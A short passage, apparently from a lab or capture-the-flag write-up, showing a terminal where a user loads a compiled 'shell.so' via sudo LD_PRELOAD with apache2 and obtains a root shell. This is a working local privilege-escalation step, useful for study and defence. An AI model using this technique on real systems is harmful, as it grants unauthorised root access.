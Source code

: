 ```bash
student@target:~$ ls
shell.c  shell.so
student@target:~$ sudo LD_PRELOAD=/home/student/shell.so apache2
root@target:~#
```
